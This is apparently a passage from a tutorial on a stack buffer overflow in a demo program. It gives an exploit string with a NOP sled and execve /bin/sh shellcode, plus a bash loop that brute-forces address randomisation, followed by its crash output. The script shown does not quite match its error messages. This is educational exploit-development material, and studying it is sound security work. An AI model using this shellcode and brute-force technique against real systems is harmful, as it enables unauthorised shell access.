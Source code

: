 ``` c
int main(int argc, char *argv[]){

  vuln(atoi(argv[1]), argv[2]);

  return 0;

}
```

And here is the exploit string we will use:

``` {.example}
./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
```

The embedded shell code is our 21 byte *smallest shell code*, and we
will put in 0xffff nop's to increase our chances. Here's a little shell
script to perform the brute force:

``` {#brute_force.sh .bash}
  #!/bin/bash

  let i=1
  while true
  do 
      echo $i $(dmesg | tail -1 | grep -o "sp [^ ]* ")  #count plus last failed stack pointer
      echo
      ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
      let i=i+1
  done
```

The script will print out the number of attempts, and also the address
of the stack pointer on the last failed attempt. And off it goes ...

``` {.example}
./brute_force.sh 
1 sp bfe6fff0

./brute_force.sh: line 11: 16261 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
2 sp bfcf8760

./brute_force.sh: line 11: 16269 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
3 sp bf809a40

./brute_force.sh: line 11: 16277 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
4 sp bfcbc9e0

./brute_force.sh: line 11: 16285 Segmentation fault      (core dumped) ./vulnerable 1 `python -c "print 'A'*(0x2c+0x4) + '\xff\xff\xb0\xbf' + '\x90'*0xffff + '\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80'"`
./brute_force.sh: line 10: usleep: command not found
5 sp bfd794d0

```